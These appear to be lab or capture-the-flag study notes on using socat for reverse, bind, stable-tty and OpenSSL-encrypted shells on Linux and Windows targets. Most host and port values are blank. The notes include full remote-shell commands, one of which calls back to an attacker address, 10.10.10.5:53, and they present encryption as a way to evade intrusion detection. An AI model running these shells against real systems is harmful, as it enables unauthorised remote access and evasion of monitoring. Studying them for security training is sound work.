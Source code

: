 # socat

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

socat TCP-L: -

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to nc -lvnp .

On Windows we would use this command to connect back:

socat TCP:: EXEC:powershell.exe,pipes

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:

socat TCP:: EXEC:"bash -li"

Bind Shells

On a Linux target we would use the following command:

socat TCP-L: EXEC:"bash -li"

On a Windows target we would use this command for our listener:

socat TCP-L: EXEC:powershell.exe,pipes

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.

socat TCP:: -

Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

socat TCP-L: FILE:`tty`,raw,echo=0

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, stty raw -echo; fg trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

socat TCP:: EXEC:"bash -li",pty,stderr,sigint,setsid,sane

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with EXEC:"bash -li". We're also passing the arguments: pty, stderr, sigint, setsid and sane:

pty, allocates a pseudoterminal on the target -- part of the stabilisation process stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells) sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell setsid, creates the process in a new session sane, stabilises the terminal, attempting to "normalise" it.

### Encrypted shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time TCP was used as part of a command, this should be replaced with OPENSSL when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly. We then need to merge the two created files into a single .pem file:

cat shell.key shell.crt > shell.pem

Now, when we set up our reverse shell listener, we use:

socat OPENSSL-LISTEN:,cert=shell.pem,verify=0 -

This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

socat OPENSSL::,verify=0 EXEC:/bin/bash

The same technique would apply for a bind shell:

Target:

socat OPENSSL-LISTEN:,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

Attacker:

socat OPENSSL::,verify=0 -

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

socat OPENSSL-LISTEN:53,cert=sencrypt.pem,verify=0 FILE:`tty`,raw,echo=0 socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
